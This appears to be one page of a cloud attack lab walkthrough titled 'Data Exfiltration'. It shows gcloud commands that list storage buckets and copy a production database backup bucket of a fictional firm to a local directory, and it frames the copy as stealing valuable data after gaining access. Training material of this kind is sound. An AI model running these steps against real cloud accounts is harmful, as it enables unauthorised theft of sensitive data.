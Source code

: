 ```yaml
---
title: Data Exfiltration
weight: 42
---
```


Now that we have access and seen that there are storage buckets, we can exfiltrate data.

The database backup in the storage sounds to be interesting. Why not try to download it?!

Well it has disabled public access, however since we are already in, that doesn't prevent us from accessing it. So let's download it:

{{% expand "Solution" %}}

```bash
gcloud storage buckets list | grep id
```

```bash
mkdir -p /root/demotalk/exfiltrate
cd /root/demotalk/exfiltrate
```

```bash
gcloud storage cp -r gs://conduit-database-backup-prod/ .
```

{{% /expand %}}

Now you have a full database backup of nevervictimconsult, in which you might find a lot of valuable data.
